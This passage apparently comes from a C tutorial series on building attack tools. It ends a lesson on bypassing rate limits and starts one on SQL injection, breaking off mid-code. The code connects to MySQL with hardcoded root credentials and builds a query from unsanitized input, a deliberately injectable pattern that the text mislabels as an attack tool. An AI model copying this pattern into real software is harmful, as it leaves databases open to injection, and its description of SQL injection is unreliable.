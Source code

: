 #### Conclusion:

Building a Rate Limit Bypass tool in C demonstrates the potential risks associated with rate limiting mechanisms and the importance of implementing robust security measures to prevent abuse. By understanding how such mechanisms can be bypassed, developers and security professionals can design more effective rate limiting strategies.

This concludes our thirtieth lesson on building a Rate Limit Bypass tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 31: Building a SQL Injection Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to perform SQL Injection attacks. SQL Injection is a common web application vulnerability that allows attackers to execute malicious SQL queries through input fields or parameters, leading to unauthorized access, data leakage, or database manipulation. Our tool will manipulate input parameters to inject malicious SQL payloads and demonstrate the impact of SQL Injection vulnerabilities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mysql/mysql.h>

#define HOST "localhost"
#define USER "root"
#define PASSWORD "password"
#define DATABASE "test"

// Function to perform a SQL Injection attack
void perform_injection(char *username) {
    MYSQL *conn;

    // Initialize MySQL connection
    conn = mysql_init(NULL);
    if (conn == NULL) {
        fprintf(stderr, "Error initializing MySQL: %s\n", mysql_error(conn));
        exit(EXIT_FAILURE);
    }

    // Connect to MySQL database
    if (mysql_real_connect(conn, HOST, USER, PASSWORD, DATABASE, 0, NULL, 0) == NULL) {
        fprintf(stderr, "Error connecting to MySQL: %s\n", mysql_error(conn));
        mysql_close(conn);
        exit(EXIT_FAILURE);
    }

    // Craft malicious SQL query with SQL Injection payload
    char query[1000];
    sprintf(query, "SELECT * FROM users WHERE username='%s'", username);

    // Execute SQL query
    if (mysql_query(conn, query)) {
        fprintf(stderr, "Error executing SQL query: %s\n", mysql_error(conn));
        mysql_close(conn);
        exit(EXIT_FAILURE);
    }

    // Process query results
    MYSQL_RES *result = mysql_store_result(conn);
    if (result == NULL) {
        fprintf(stderr, "Error storing query result: %s\n", mysql_error(conn));
        mysql_close(conn);
        exit(EXIT_FAILURE);
    }
```